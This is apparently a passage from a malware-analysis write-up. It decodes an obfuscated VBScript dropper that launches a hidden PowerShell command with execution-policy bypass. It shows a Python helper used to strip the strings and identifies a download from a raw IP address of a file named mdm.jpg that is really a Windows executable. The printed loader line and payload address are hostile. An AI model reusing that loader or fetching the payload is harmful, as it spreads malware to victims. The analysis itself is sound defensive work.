 ```vb
    OodjR = ""

    For i = 0 To 88 - 1
    OodjR = OodjR & LZeWX(i)
    Next

    ' Use the combinedParts in the shell execution
    Set objShell = CreateObject("WScript.Shell")
    objShell.Run "Cmd.exe /c POWeRSHeLL.eXe -NOP -WIND HIDDeN -eXeC BYPASS -NONI " & OodjR, 0, True
    Set objShell = Nothing
```

using python script I removed all unnecessary parts

script.py
```python
input_file = 'input.txt'
output_file = 'output.txt'

with open(input_file, 'r') as fin, open(output_file, 'w') as fout:
    for line in fin:
        
        modified_line = line[11:].replace('"', '').rstrip().replace(' ', '')
        fout.write(modified_line)


print(f"Lines in {input_file} got cleaned and have been saved to {output_file}.")
```


![Screenshot 2024-07-15 212117](/assets/images/proof_malware.png)


Its powershell command to download http://45.126.209.4:222/mdm.jpg as a string

I wonder whats mdm.jpg ;)

![Screenshot 2024-07-15 212117](https://github.com/user-attachments/assets/01842bce-c841-4b97-8a33-a1a9f7744129)


content:image/jpeg

but header (magic numbers arent jpeg nor matching to any image extension)

header here is written in hex, converting it to ascii (4D 5A => M Z)

header mentioned here are MZ........
